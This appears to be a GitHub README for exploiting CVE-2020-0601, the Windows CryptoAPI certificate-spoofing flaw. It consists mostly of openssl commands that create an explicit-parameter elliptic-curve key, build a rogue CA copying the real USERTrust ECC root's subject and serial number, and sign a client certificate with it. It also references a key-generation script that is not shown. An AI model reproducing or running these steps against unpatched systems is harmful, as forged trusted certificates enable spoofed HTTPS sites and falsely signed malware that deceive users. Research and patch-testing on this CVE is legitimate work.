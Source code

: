 # CryptoAPI

CVE-2020-0601: Windows CryptoAPI Spoofing Vulnerability exploitation

# CA certificate

We used the [USERTrust ECC Certification Authority](http://www.tbs-x509.com/USERTrustECCCertificationAuthority.crt)

Key template:
```bash
$ openssl ecparam -name secp384r1 -genkey -noout -out p384-key.pem -param_enc explicit
```

To generate a private key which match the public key certificate we used the script **gen-key.py**. Then to generate the rogue CA:

```bash
$ openssl req -key p384-key-rogue.pem -new -out ca-rogue.pem -x509 -set_serial 0x5c8b99c55a94c5d27156decd8980cc26
```

With "C = US, ST = New Jersey, L = Jersey City, O = The USERTRUST Network, CN = USERTrust ECC Certification Authority" parameters

The we generate the following private key and certificate:
```bash
openssl ecparam -name prime256v1 -genkey -noout -out prime256v1-privkey.pem

openssl req -key prime256v1-privkey.pem -config openssl.cnf -new -out prime256v1.csr

openssl x509 -req -in prime256v1.csr -CA ca-rogue.pem -CAkey p384-key-rogue.pem -CAcreateserial -out client-cert.pem -days 500 -extensions v3_req -extfile openssl.cnf 
```